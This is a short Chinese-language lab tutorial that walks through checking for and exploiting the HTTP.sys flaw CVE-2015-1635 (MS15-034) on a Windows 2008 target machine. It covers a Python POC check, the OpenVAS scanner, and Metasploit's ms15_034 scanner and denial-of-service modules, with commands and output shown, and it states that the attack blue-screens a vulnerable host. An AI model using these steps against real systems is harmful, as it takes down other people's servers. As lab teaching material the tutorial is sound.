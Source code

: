 # 漏洞检测
## 两种漏洞检测
1. 利用脚本
    - `第一步`：POC脚本检测
      - 上传cve-2015-1635.poc到kali系统
      - 修改cve-2015-1635.poc文件中的ipaddr为windows靶机地址
      ```
      cat cve-2015-1635.poc     查看文件
      ```
      - 使用python执行POC脚本
      ```
      [root]python2 cve-2015-1635.poc
      [*]Audit Started     //审计开始
      [!!]Looks VULN      //看起来是脆弱的
      ```
2. 利用软件形成检测报告从而知道其中漏洞
    - OpenVAS

## `第二步`搜索CVE-2015-1635或MS15-034
```
[root]msfconsole
msf6 > search MS15-034    //或CVE-2015-1635
   0  auxiliary/dos/http/ms15_034_ulonglongadd  //攻击
   1  auxiliary/scanner/http/ms15_034_http_sys_memory_dump  //扫描 
```
## `第三步`使用 1 先做扫描
```
msf6 > use 1    //执行扫描
> set rhosts 192.168.10.142   //准备对此IP进行扫描
> run       //执行


[+] Target may be vulnerable...       //目标可能是脆弱的
```
## `第四步`退出扫描，切换攻击
```
msf6 > use 0    //执行攻击
> set rhosts 192.168.10.142   //准备对此IP进行攻击
> run       //执行

[*] DOS request sent          //DOS请求已发送
[*] Scanned 1 of 1 hosts (100% complete)    //扫描1个主机已完成
[*] Auxiliary module execution completed    //辅助模块执行完成

```
执行完这些命令后如果你的windows2008具有这个漏洞就会出现蓝屏情况
